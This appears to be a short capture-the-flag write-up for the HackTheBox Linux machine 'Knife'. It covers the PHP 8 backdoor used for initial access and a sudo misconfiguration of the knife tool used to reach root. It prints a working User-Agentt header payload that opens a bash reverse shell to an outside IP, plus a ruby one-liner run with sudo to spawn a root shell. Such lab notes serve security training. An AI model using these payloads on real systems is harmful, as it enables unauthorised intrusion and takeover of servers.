 # Knife 🧭
Names | Details
--------|-----
Source | HTB
Level     | Medium
Os | Linux

**Notes :**




## Gaining Access 😉

- php version 8 is vulnerable
	- exploit on searchsploit
- manual exploit for tty shell



## Maintaining Access 🥷
- sudo -l
- knife can run ruby files
	- /usr/bin/knife run.rb
- `echo "system('/bin/bash')" > run.rb`
- User james may run the following commands on knife: 
    (root) NOPASSWD: /usr/bin/knife
 if you found this, run with sudo
 


## Important commands 🔥
- ` User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1'");`
	- ` /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1`
- `echo "system('/bin/bash')" > helo.rb``
- `sudo /usr/bin/knife exec helo.rb`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- always try to have a tty shell
- jailshell has some limitations


--------------------------------
**By Nibras Muhammed** 🤓🖥️






